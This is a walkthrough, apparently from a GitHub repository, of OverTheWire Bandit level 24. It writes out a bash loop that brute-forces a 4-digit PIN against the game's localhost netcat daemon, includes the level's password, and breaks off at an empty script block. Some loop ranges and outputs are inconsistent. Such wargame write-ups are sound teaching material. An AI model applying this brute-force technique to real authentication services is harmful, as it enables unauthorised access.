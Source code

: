 # lv 24
```
Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
```
So by read the goal we need to use netcat sending a current password + 4 digit pincode (0000-9999) let try out.
```console
bandit24@bandit:~$ echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
```
I got it right now we have to bructe force the pin code using shell script
```console
$ mkdir /tmp/kurohat24 # create directory
$ touch test.sh # create file
$ chmod 777 test.sh # make it execute able
$ nano test.sh # add this
#!/bin/bash
for i in {0000..00003}
do
   echo "pin $i"
done
$ ./test.sh # run it
pin 00000
pin 00001
pin 00002
pin 00003
```
now we have brute force pin that is wroking for 0000 - 0003. let add fucntion, let make it send stuff with netcat (```echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ [pin]" | nc localhost 30002```)
```bash
#!/bin/bash
for i in {0000..00003}
do
  echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" 
done | nc localhost 30002
```
this is the result of running the script
```console
bandit24@bandit:/tmp/kurohat24$ ./test.sh 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Timeout. Exiting.
```
it works, now it is time for the action. The plan I will create 2 shell script. 1 will start from 0000 to 5000, another one start from 5001 to 9999. The respone from the server will be put in a file call 5000.txt and 50001.txt
```console
$ touch brute1.sh
$ touch brute2.sh
$ chmod 777 brute1.sh
$ chmod 777 brute2.sh
$ nano brute1.sh # put the script below
$ nano brute2.sh # put the script below
```
in brute1.sh
```bash
```
